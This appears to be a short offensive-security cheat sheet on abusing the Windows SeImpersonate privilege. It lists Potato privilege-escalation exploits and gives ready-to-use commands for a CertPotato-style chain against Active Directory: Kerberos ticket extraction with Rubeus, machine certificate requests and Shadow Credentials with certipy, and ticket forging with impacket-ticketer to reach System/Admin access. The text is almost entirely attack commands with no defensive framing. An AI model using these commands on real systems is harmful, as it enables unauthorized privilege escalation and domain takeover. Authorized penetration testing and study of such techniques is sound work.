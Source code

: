 # SeImpersonate Privilege

### Potato exploits:

#### 1) RoguePotato

#### 2) Juicy Potato / Lovely Potato

#### 3) PrintSpoofer

#### 4) CertPotato

### Commands for 4):

 - .\Rubeus.exe tgtdeleg /nowrap (TGT pass the ticket)

 - certipy req -k -ca CA -template Machine -target DC (On Linux)

 - certipy auth -pfx PFX_FILE

## OR do Shadow Credentials attack

 - certipy shadow auto -u 'MACHINE$'@DOMAIN -k account 'MACHINE$'

## Get the Machine NT Hash and then:

 - impacket-ticketer -nthash HASH -domain-sid DOMAIN_SID -domain DOMAIN -spn cifs/DC TARGET_USER (This can give System/Admin access)
